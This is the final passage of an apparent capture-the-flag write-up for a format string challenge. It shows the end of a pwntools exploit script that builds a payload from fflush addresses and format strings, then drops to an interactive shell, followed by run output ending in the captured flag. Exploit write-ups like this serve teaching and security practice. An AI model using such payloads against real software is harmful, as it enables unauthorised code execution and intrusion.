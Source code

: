 ```
payload = fflush_adr0 + fflush_adr1 + fflush_adr2 + flag_val0 + fmt_string0 + flag_val1 + fmt_string1 + flag_val2 + fmt_string2

#Send the payload
target.sendline(payload)

#Drop to an interactive shell
target.interactive()
```

When we run it:

```
$    python exploit.py
[+] Starting local process './32_new': pid 31622
Hello baby pwner, whats your name?

[*] Switching to interactive mode
Ok cool, soon we will know whether you pwned it or not. Till then Bye (\xa0\x0)\xa0\x0+\xa0\x0                                                                                                                                                                                  8048914                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    ffaa8f08                                                                                                                         ffaa8f5c
[*] Process './32_new' stopped with exit code 1 (pid 31622)
flag{g0ttem_b0yz}
[*] Got EOF while reading in interactive
```

Just like that, we solved the challenge!
